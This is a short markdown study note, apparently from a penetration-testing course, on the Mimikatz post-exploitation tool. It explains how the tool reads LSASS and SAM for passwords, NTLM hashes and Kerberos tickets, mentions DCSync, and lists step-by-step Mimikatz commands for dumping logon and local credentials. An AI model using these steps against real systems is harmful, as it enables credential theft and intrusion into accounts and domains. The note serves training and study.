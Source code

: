 # Mimikatz
The de factor blackhat/whitehat credential manipulation tool.
Post exploitation tool to retrieve/handle credentials in various formats.
https://adsecurity.org/?page_id=1821 (unofficial guide)

## Basics
- reads from LSASS memory to retrieve AD credentials
    - Cleartext passwords (depends on Windows version and GPO settings)
    - NTLM hashes ("pass-the-hash" and "pass-the-ticket")
    - Kerberos (build custom (golden) tickets)
- reads from SAM process to retrieve local credentials (same/similar to LSASS)
- needs to be run as admin (or better needs the debug "SeDebugPrivilege" priviledge) and elevated high (UAC)

*Remark: we could also get a memory dump via Task Manager !!!(without Mimikatz)*

**Extract credentials (SAM + LKSASS)**
-> see pdf "05F Credential Abuse.pdf"

**DCSync**
Replicating directly from domain controller. Simulate a DC asking another DC to replicate one or more object incl. credentials
Requires specific privileges.

**Other**
- impersonating tokens
- -> see pdf "05F Credential Abuse.pdf"

## Dump Logon passwords from Lsass.exe 

1. `.\mimikatz.exe`  -> start mimikatz prompt
2. `privilege::debug` -> aquire debug privilege to spy into other processes (which we have to be admin)
    - expected response: "Privilege '20' OK"
3. `log my_log.txt` -> enable logging (highly recommended)
4. `sekurlsa::logonpasswords` ->  retrieve our credentials
    - Check the output for NTLM hash


## Dump local passward from SAM
1. If mimikatz is not started yet: `.\mimikatz.exe` 
2. `token::elevate` -> elevate our permissions to SYSTEM  (see UAC levels, needed for SAM)
3. if not done before: `log my_log.txt` -> enable logging (highly recommended)
3. `lsadump::sam` -> will dump content SAM
    - Check the output for NTLM hash